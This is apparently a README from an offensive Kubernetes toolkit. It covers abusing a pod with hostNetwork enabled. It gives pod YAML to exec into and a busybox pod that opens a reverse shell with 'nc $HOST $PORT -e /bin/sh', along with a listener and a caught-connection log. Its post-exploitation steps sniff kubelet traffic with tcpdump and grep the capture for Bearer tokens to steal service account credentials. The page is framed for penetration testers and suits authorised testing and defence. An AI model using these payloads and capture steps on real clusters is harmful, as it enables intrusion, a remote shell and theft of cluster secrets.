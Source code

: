 ## You can create a pod with only hostNetwork

If you only have `hostNetwork=true`, you can't get RCE on the host directly, but if your cross your fingers you might still find a path to cluster admin. 
There are two potential escalation paths:  
* **Sniff traffic** - You can use tcpdump to sniff unencrypted traffic on any interface on the host. You might get lucky and find service account tokens or other sensitive information that is transmitted over unencrypted channels.
* **Access services bound to localhost** - You can also reach services that only listen on the host’s loopback interface or are otherwise blocked by network polices. These services might turn into a fruitful privesc path.

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostnetwork
  labels:
    app: pentest
spec:
  hostNetwork: true
  containers:
  - image: ubuntu
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    name: hostnetwork
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name  ```
[pod-hostnetwork.yaml](pod-hostnetwork.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostnetwork.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostnetwork/pod-hostnetwork.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostnetwork -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostnetwork-revshell
  labels:
    app: pentest
spec:
  hostNetwork: true
  containers:
  - image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    name: hostnetwork-revshell
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name```
[pod-hostnetwork-revshell.yaml](pod-hostnetwork-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostnetwork/pod-hostnetwork-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post Exploitation 

#### Install tcpdump and sniff traffic 
**Note:** If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes `tcpdump`, like https://hub.docker.com/r/corfr/tcpdump

```bash
apt update && apt install tcpdump 
```
You now have a few options for next steps: 

See if the `kubelet` read port (10255/tcp) is open on any of the node's IPs
```bash
nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!
```

If the read port is open, run `tcpdump`, recording the output to a file for a few minutes.

**Warning:** Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)
**Warning:** Always run `tcpdump` with the `-n` flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 

```bash
tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255
```
Stop the capture and read the file with `tcpdump`.  Tip: Use the `-A` flag to only show the printable characters and hunt for things like tokens with `grep`. 

```bash
tcpdump -ro kubelet-ro.cap -s0 -A
tcpdump -ro kubelet-ro.cap -s0 -A | grep Bearer
```

Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt token. If you are really lucky, that token might be associated with a service account in `kube-system`.


#### Another path: Investigate local services
```bash
curl https://localhost:1234/metrics
```

#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.
